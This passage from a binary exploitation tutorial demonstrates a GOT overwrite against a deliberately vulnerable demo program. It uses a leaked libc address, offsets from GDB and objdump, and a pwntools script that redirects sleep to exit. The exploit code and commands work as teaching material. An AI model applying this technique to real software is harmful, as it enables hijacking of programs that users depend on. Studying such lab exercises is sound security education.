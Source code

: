 The least significant 3 nibbles of the above addresses are `250` and `0e0`, respectively.

We enter them in the [libc database](https://libc.blukat.me/) and get a match for the same `libc` build we determined earlier. 

For this `libc`, we obtain the offsets of the functions we are interested in using GDB:

```
silvia@imladris:/sss/demo$ gdb -q -n /lib/i386-linux-gnu/libc.so.6
(gdb) p printf
$1 = {<text variable, no debug info>} 0x513a0 <__printf>
(gdb) p exit
$2 = {<text variable, no debug info>} 0x30420 <__GI_exit>
```

We will also need the address of `sleep@got` (which is static because the binary is not position independent):

```
silvia@imladris:/sss/demo$ objdump -d -M intel -j .plt ./got_overwrite | grep "sleep@plt" -A1
080483b0 <sleep@plt>:
 80483b0:   ff 25 0c a0 04 08       jmp    DWORD PTR ds:0x804a00c
```

We start the program and compute the address of exit based on the leak of printf (in another terminal):

```
>>> printf_offset = 0x513a0
>>> exit_offset = 0x30420
>>> 0xf7dfb3a0 - printf_offset + exit_offset
4158497824
```

```
silvia@imladris:/sss/demo$ ./got_overwrite
Here's a libc address: 0xf7dfb3a0
Give me and address to modify!
0x804a00c
Give me a value!
4158497824
silvia@imladris:/sss/demo$ echo $?
10
```

As we intended, the `GOT` entry corresponding to `sleep` was overwritten by exit and the program exited with code 10 without printing the final message.

The following pwntools script automates this interaction:

```
from pwn import *
 
p = process('./got_overwrite')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
 
sleep_got = p.elf.got['sleep']
 
p.recvuntil('libc address:')
libc_leak = int(p.recvuntil('\n')[:-1], 16)
libc_base = libc_leak - libc.symbols['printf']
 
print("Libc base is at: 0x%x" % libc_base)
 
exit = libc_base + libc.symbols['exit']
 
p.sendline(hex(sleep_got))
 
p.recvuntil('value!')
p.sendline(str(exit))
```